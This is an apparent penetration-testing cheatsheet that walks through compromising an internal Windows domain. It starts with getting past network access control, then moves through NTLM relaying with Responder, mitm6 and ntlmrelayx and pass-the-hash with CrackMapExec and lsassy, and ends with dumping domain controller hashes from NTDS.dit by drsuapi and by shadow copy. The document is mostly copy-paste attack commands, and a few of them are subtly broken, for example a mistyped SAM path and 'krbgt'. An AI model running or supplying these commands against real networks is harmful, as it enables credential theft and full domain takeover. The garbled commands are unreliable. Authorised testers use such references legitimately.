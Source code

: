 # Internal Penetration Testing

## 1. **No network access**

### Wi-Fi

* Crack WPA or crack/replay PEAP

> For more details, see next cheatsheet : [WiFi](02-wifi.md)

### NAC - MAC filtering

1. Spoof mac, static ip, gateway ip, from any authorized device \(e.g printer or voip phone\), and disconnect it: 
```sh
macchanger -r eth0
```
2. force your static IP to match the one that you spoofed the mac from : 
```sh
sudo ifconfig <static_ip>/24 && sudo ip route add default via <gateway_ip>
```

### NAC - 802.1X

* [Fenrir](https://github.com/Orange-Cyberdefense/fenrir-ocd) (IEEE 802.1X bypass)

---

## 2. **No account yet**

### Physical access

Boot from Kali Linux and dump creds

```bash
cd SystemRoot%\system32\Config\SAM
impacket-secretsdump -system SYSTEM -sam SAM -security SECURITY -local
```
> For more details, see next cheatsheet : [Windows Post Exploitation](05-post-exploitation-windows.md)

---

### Network Access

Port and service scan

nmap

```sh
nmap -Pn -n -sSUV -n -vvv --reason -pT:137-139,445,U:137-139 -oA SMB <hosts>
nmap --version-all -sV -sC -oA top1000 <hosts>
nmap --version-all -sV -sC -p- -oA allports <hosts>
```

Search for low hanging fruits \(MS17 / default password TOMCAT VNC ... \)

```bash
use auxiliary/scanner/smb/smb_ms17_010
use auxiliary/scanner/mssql/mssql_login
use auxiliary/scanner/http/tomcat_mgr_login
searchsploit <service_name>
```

---

Man-In-The-Middle

Responder + NTLMrelayx

1. First we need to edit  responder.conf like this :

`vim /usr/share/responder/Responder.conf`

```bash
[Responder Core]

; Servers to start
SQL = On
SMB = Off     # Turn this off
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off    # Turn this off
HTTPS = On
DNS = On
LDAP = On
```

2. Then we create a list of targets :

```bash
nmap -T4 -Pn -p 445 --open -oA <outfile> <targets>
cat *.gnmap | grep -i "open/tcp" | cut -d " " -f2 | sort -u > perim_up_smb.txt
crackmapexec smb perim_up_smb.txt --gen-relay-list relaylistOutputFilename.txt
```

> if the scope is small, scan and generate using only crackmapexec : `crackmapexec smb <targets> --gen-relay-list relaylistOutputFilename.txt`

3. After we can run Responder + ntlmrelayx

```bash
# Light
./Responder.py -I eth0 
# Medium
./Responder.py -I eth0 -rdw
# Full
./Responder.py -I eth0 -rdwFP

impacket-ntlmrelayx -tf relaylistOutputFilename.txt -smb2support
```

mitm6 + NTLMrelayx

```bash
sudo mitm6 -hw <MICHMICH-COMPUTER> -d <domain.fqdn> --ignore-nofqnd
impacket-ntlmrelayx -tf relaylistOutputFilename.txt -6 

# If no smb available, try ldap/ldaps/mssql : 
impacket-ntlmrelayx -t ldaps://<target> -l lootdir
```

ARP \(use with caution !\)

```bash
Bettercap
Cain.exe (& Abel)
```

---

## 3. **Unprivileged account only**

### Get a shell

> For more details, see next cheatsheets : [Shell](../useful-commands/shell.md) and [AV Bypass](09-antivirus-bypass)

---

### Local Privilege Escalation

> For more details, see next cheatsheet : [Local Privilege Escalation Windows](03-lpe-windows.md)

---

### Domain Escalation

> For more details, see next cheatsheet : [Domain Escalation](08-domain-escalation.md)

---

## 4. **Local Admin account**

### Post-Exploitation

> For more details, see next cheatsheet : [Local Post Exploitation Windows](05-post-exploitation-windows.md)

### Pivoting

> For more details, see next cheatsheet : [Pivoting](07-pivoting.md)

### Replay the secrets found

Kerberos ticket, LM/NTLM hash or cleartext password with CrackMapExec or lsassy

```bash
crackmapexec smb <host_file> -d <domain> -u <user>  -H <hash> --lsa
crackmapexec smb <host_file> -d <domain> -u <user>  -H <hash> --sam
lsassy <target> -d <domain> -u <user> -p <pass>
```

---

## 5. **Domain admin account**

### Dump NDTS.dit from DC

```bash
# CrackMapExec using password
sudo crackmapexec smb <target> -u <domain_admin> -p '<pass>' --ntds

# CrackMapExec using kerberos ticket
export KRB5CCNAME=<user>.ccache 
sudo crackmapexec smb <target> --kerberos --ntds drsuapi

# Antivirus blocking default drsuapi method, try vss method instead
sudo crackmapexec smb <target> -u <domain_admin> -p '<pass>' --ntds vss

# dump krbgt hash only
impacket-secretsdump <domain>/<domain_admin>:'<pass>'@<target> -history -just-dc -just-user krbgt
```

### Manual Dump

```bash
# 1) use any tool that can achieve command execution on remote target to make a shadow copy
vssadmin create shadow /for=C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\Windows\NTDS.dit.bak
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\Windows\SYSTEM.bak

# 2) use any tool that can retrieve these 2 files 
smbmap -d <domain> -u <user> -p <pass> -H <target> --download-file 'C:\Windows\NTDS.dit.bak'
smbmap -d <domain> -u <user> -p <pass> -H <target> --download-file 'C:\Windows\SYSTEM.bak'

# 3) Locally parse theses files
impacket-secretsdump -ntds NTDS.dit.bak -system SYSTEM.bak LOCAL
```

